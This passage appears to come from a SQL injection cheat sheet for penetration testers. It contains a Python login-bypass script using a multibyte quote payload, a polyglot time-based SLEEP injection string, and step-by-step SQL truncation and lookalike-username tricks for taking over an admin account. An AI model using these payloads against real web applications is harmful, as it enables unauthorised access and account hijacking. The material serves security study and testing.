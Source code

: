Python script:

```python
import requests
url = "http://example.com/index.php" 
cookies = dict(PHPSESSID='4j37giooed20ibi12f3dqjfbkp3') 
datas = {"login": chr(0xbf) + chr(0x27) + "OR 1=1 #", "password":"test"} 
r = requests.post(url, data = datas, cookies=cookies, headers={'referrer':url}) 
print r.text
```

### Polyglot injection (multicontext)

```sql
SLEEP(1) /*' or SLEEP(1) or '" or SLEEP(1) or "*/
```

## Insert Statement

### Modify password of existing object/user

To do so you should try to **create a new object named as the "master object"** (probably **admin** in case of users) modifying something:

* Create user named: **AdMIn** (uppercase & lowercase letters)
* Create a user named: **admin=**
* **SQL Truncation Attack** (when there is some kind of **length limit** in the username or email) --> Create user with name: **admin \[a lot of spaces] a**

#### SQL Truncation Attack

If the database is vulnerable and the max number of chars for username is for example 30 and you want to impersonate the user **admin**, try to create a username called: "_admin \[30 spaces] a_" and any password.

The database will **check** if the introduced **username** **exists** inside the database. If **not**, it will **cut** the **username** to the **max allowed number of characters** (in this case to: "_admin \[25 spaces]_") and the it will **automatically remove all the spaces at the end updating** inside the database the user "**admin**" with the **new password** (some error could appear but it doesn't means that this hasn't worked).

More info: [https://blog.lucideus.com/2018/03/sql-truncation-attack-2018-lucideus.html](https://blog.lucideus.com/2018/03/sql-truncation-attack-2018-lucideus.html) & [https://resources.infosecinstitute.com/sql-truncation-attack/#gref](https://resources.infosecinstitute.com/sql-truncation-attack/#gref)

_Note: This attack will no longer work as described above in latest MySQL installations. While comparisons still ignore trailing whitespace by default, attempting to insert a string that is longer than the length of a field will result in an error, and the insertion will fail. For more information about about this check: [https://heinosass.gitbook.io/leet-sheet/web-app-hacking/exploitation/interesting-outdated-attacks/sql-truncation](https://heinosass.gitbook.io/leet-sheet/web-app-hacking/exploitation/interesting-outdated-attacks/sql-truncation)_

### MySQL Insert time based checking

